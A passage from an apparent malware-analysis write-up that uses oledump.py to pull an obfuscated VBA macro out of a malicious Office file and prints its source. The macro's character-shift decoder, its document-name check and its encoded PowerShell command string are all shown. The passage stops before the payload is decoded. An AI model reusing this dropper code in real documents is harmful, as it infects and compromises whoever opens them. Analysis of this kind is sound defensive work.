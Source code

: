 To look into the file we can use [oledump.py from Didier Stevens](https://blog.didierstevens.com/programs/oledump-py/). This will allow us to analyze this OLE file.

```shell
$ ./oledump.py vbaProject.bin
  1:       410 'PROJECT'
  2:        71 'PROJECTwm'
  3: M    6164 'VBA/NewMacros'
  4: m     954 'VBA/ThisDocument'
  5:      3067 'VBA/_VBA_PROJECT'
  6:      3003 'VBA/__SRP_0'
  7:       226 'VBA/__SRP_1'
  8:      2334 'VBA/__SRP_2'
  9:       526 'VBA/__SRP_3'
 10:       571 'VBA/dir'
```

Here we can see that stream ID 3 has a large 6164 byte VB Macro embedded... Seems interesting. Let's extract it:

```shell
$ oledump.py -s 3 -v vbaProject.bin

Attribute VB_Name = "NewMacros"
Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    OatMilk = OatMilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = OatMilk
End Function


Function Bears(Cows)
    Bears = StrReverse(Cows)
End Function

Function Tragedy()

    Dim Apples As String
    Dim Water As String

    If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then
        Exit Function
    End If

    Apples = "129128136118131132121118125125049062118127116049091088107132106104116074090126107132106104117072095123095124106067094069094126094139094085086070095139116067096088106065107085098066096088099121094101091126095123086069106126095074090120078078"
    Water = Nuts(Apples)


```